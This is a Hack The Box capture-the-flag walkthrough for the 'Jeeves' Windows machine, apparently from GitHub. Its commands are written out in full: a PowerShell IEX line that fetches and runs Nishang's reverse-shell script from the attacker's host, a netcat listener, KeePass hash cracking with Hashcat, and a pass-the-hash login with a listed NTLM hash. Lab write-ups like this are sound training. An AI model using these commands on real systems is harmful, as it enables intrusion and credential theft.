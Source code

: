 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabbit hole but with enough enumeration and familiarity with Windows Powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. 


### Enumeration
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use nmapAutomator, although you can run a traditional Nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```


We have four open ports on our target machine. After no success with enumerating port 445 (SMB), I decided to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will run a DirBuster scan to enumerate further files and directories here but did not obtain anything useful. 


![jeeves](https://user-images.githubusercontent.com/85421181/121051454-17436980-c77f-11eb-8650-e492b0a48f6c.png)



Continuing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our Nmap scan from earlier. 

![jetty](https://user-images.githubusercontent.com/85421181/121051549-288c7600-c77f-11eb-8db4-3394bb1d663b.png)

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, ExploitDB, and Metasploit I decided that there must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has revealed a new directory (/askjeeves). 

![dirb](https://user-images.githubusercontent.com/85421181/121051588-2e825700-c77f-11eb-9ef5-439a7feee42a.png)

It appears our target is hosting an application called Jenkins, software for developers to automatically build, test, and deploy their software. 

![jenkins](https://user-images.githubusercontent.com/85421181/121051616-33470b00-c77f-11eb-9446-4c541faf6114.png)

After poking around the application it appears that we can build and deploy new projects without any restriction. We will go to ‘New Item > Freestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Interesting! Let us craft a payload using a Powershell one-liner and Nishang's Invoke-PowerShellTcp.ps1 script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (Netcat will be utilized for this step and will be explained later). 

```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 
```
Great, our script is ready to go! Let's host it on our attacker machine utilizing either SimpleHTTPServer or http.server (either will work). 

```markdown
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080
``` 
Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing Netcat. To do this, execute the below command and ensure that the port listed in this command is the same declared at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier.

```markdown
nc -lvnp 4444
```
Time to get our initial foothold. Powershell's IEX is a powerful resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following Powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

```markdown
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');
```
![build](https://user-images.githubusercontent.com/85421181/121052031-96d13880-c77f-11eb-8fa3-6c440ed7b0c0.png)

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congratulations, we have our initial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privilege escalation. 

![foothold](https://user-images.githubusercontent.com/85421181/121052041-9afd5600-c77f-11eb-859e-3a810084317d.png)

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extension is indicative of a KeePass file which we will be using keepass2john and Hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

![CEH](https://user-images.githubusercontent.com/85421181/121052053-9df84680-c77f-11eb-9988-cd6287d6bf24.png)

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into Hashcat for a cleartext password.

```markdown
keepass2john CEH.kdbx > CEH.hash
```
![hash](https://user-images.githubusercontent.com/85421181/121052080-a3559100-c77f-11eb-8041-7d05a4ef1eb0.png)

We will now feed this hash file (CEH.hash) into a tool called Hashcat which will provide us with the cleartext password. For this password crack, I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

```markdown
hashcat -m 13400 CEH.hash rockyou.txt
```
OUTPUT:
![hashcat](https://user-images.githubusercontent.com/85421181/121052096-a6e91800-c77f-11eb-8995-1231c2e705ed.png)

With our password being ‘moonshine1’ we can now view the contents of the KeePass file!

![keepass](https://user-images.githubusercontent.com/85421181/121052107-a9e40880-c77f-11eb-8dba-d05c060f6ed8.png)


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password field. 

```markdown
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use pth-winexe for this attack.

```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```
![pth-winexe](https://user-images.githubusercontent.com/85421181/121052128-b0728000-c77f-11eb-8073-f2db91708325.png)

### Closing Remarks
  We are now Administrator! Before ending this, it is worth noting that you may not be able to obtain your root flag as easily as the user flag. This is because there is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be seen by appending /r to your ‘dir’ command. 

![dir](https://user-images.githubusercontent.com/85421181/121052143-b4060700-c77f-11eb-8d07-69e297f563bb.png)

Utilize the following command to obtain your root flag.

```markdown
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt
```
Thanks for reading! 
